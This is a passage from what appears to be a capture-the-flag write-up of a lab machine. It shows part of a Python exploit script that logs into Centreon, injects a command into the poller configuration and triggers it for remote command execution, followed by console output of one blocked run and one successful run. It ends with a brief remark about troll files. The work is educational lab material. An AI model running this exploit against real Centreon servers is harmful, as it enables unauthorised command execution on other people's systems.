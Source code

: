         send_payload = request.post(poller_configuration_page, payload_info)
        print(f"[*] Payload inject status code: {send_payload.status_code}")
        if send_payload.status_code == 403:
            print("[-] WAF blocked command. Try something else")
            sys.exit()
        print("[+] Injecting Done, triggering the payload")
        generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
        xml_page_data = {
            "poller": "1",
            "debug": "true",
            "generate": "true",
        }
        try:
            resp = request.post(generate_xml_page, xml_page_data, timeout=5)
            res = re.findall("id='debug_1'>(.*)<br><br></div><br/>]]", resp.text)[0]
            print(res.replace('<br>','\n'))
        except requests.Timeout:
            pass

    else:
        print("[-] Wrong credentials")
        exit()



When it runs, it looks like, with both a failure (`hostname` is
blacklisted) and a success:



    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 "hostname"
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 829c505845f89f2057d44136440c8665
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : ca4c0c82566cef21642020c602a2feac
    [*] Payload inject status code: 403
    [-] WAF blocked command. Try something else

    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 "uname -a"
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : f1751b09c89e8cded9ed6d469bec20d6
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : e056d43e94946b0dfeec827b36ff26fd
    [*] Payload inject status code: 200
    [+] Injecting Done, triggering the payload
    Linux Wall 4.15.0-54-generic #58-Ubuntu SMP Mon Jun 24 10:55:24 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux



### Trolls

One of my least favorite thing about this box was a series of weird
troll files sprinkled all over it. It's not clear to me why authors add
these kinds of things without any pretense that they belong on the boc.
That said, I always check them out once I have a shell.
